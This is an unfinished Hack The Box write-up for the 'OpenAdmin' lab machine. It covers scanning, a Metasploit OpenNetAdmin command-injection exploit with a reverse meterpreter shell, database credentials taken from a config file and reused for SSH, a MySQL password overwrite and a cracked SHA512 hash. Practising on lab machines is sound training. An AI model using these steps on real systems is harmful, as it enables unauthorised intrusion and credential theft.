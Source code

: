 
# OpenAdmin <!-- omit in toc -->

# Table of Contents <!-- omit in toc -->
- [Scan Results](#scan-results)
  - [Nmap](#nmap)
    - [Ports](#ports)
  - [Directories](#directories)
- [Recon](#recon)
- [Expolit](#expolit)
    - [Metasploit:](#metasploit)
- [Post Exploit](#post-exploit)
- [Flags](#flags)
    - [User Flag](#user-flag)
    - [Root Flag](#root-flag)

# Scan Results

## Nmap
```
# Nmap 7.80 scan initiated Wed Mar 11 12:59:27 2020 as: nmap -sV -sC -oA ./Documents/HackTheBox/OpenAdmin/Scans/nmap 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.087s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Mar 11 12:59:38 2020 -- 1 IP address (1 host up) scanned in 11.27 seconds
```
### Ports
* 22 - ssh
* 80 - http

## Directories
```
root@kali:~# gobuster dir -u 10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/11 13:05:20 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
/sierra (Status: 301)
/server-status (Status: 403)
===============================================================
2020/03/11 13:38:25 Finished
===============================================================
```
# Recon

# Expolit

### Metasploit:

1. open metasploit using: `msfconsole`
2. search for opennetadmin
3. use `exploit/unix/webapp/opennetadmin_ping_cmd_injection`
4. set payload to `linux/x64/meterpreter/reverse_tcp)`
5. set `RHOSTS` and `LHOSTS`


there are 2 users on the machine: jimmy, joanna

using the docs we can see how to install.
logs are created at: /var/log/ona.log
config: /opt/ona/www/local/config

Go to the config folder there we see 3 files:
```
meterpreter > ls
Listing: /opt/ona/www/local/config
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  426   fil   2019-11-22 17:18:18 +0000  database_settings.inc.php
100664/rw-rw-r--  1201  fil   2019-11-22 17:18:18 +0000  motd.txt.example
100644/rw-r--r--  0     fil   2019-11-22 17:18:18 +0000  run_installer

```

cat the database_settings file:
```
meterpreter > cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
?>
```

we found the database login info.

ssh as jimmy using the database password
```
ssh jimmy@10.10.10.171
```

and now connect to the mysql database using:
```
mysql -u ona_sys -p
```

when asked for password, enter the password we found above.
commands:
```
show databases;
use [database name];
show tables;
select * from [table];
show columns from [table];
update users set password = 'admin' where id =2;
```

once connected as jimmy go to: `/var/www/internal`
there are 3 files which we can donwload for inspection
```
scp jimmy@10.10.10.171:/var/www/internal/index.php ./Desktop/

scp jimmy@10.10.10.171:/var/www/internal/main.php ./Desktop/

scp jimmy@10.10.10.171:/var/www/internal/logout.php ./Desktop/
```

on the index.php file we can see the following SHA512 password:

```
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1
```

using SHA512 dyrcpter the password is: `Revealed`

to get to the files we need to start a php server on the /var/www/internal folder
```
php -S 10.10.10.171:8080
```

now browse to 10.10.10.171:8080 and interact with the files.
the user is: `jimmy`
password: `Revealed`

now main.php should cat joanna's rsa key but running the php server as jimmy shows us Permission denied


# Post Exploit

# Flags

### User Flag

### Root Flag

